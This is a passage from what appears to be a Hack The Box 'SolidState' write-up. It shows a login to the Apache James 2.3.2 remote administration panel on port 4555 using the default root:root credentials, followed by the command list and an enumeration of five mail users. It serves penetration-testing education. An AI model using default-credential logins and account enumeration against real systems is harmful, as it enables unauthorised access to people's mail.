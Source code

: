 <br />
Looking up the James mail.  Apparently, it is maintained by Apache.  So, the service running on port 4555 is the administration panel.  I has the default credentials of root:root.  Let's use telnet to connect and test the creds.  Netcat kept freezing.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```
{% endraw %}

<br />
Type help to get a list of commands that we can run.

{% raw %}
```sh
HELP 
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```
{% endraw %}

<br />
Use the listusers to get a list of all the users on the mail system.

{% raw %}
```sh
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
{% endraw %}
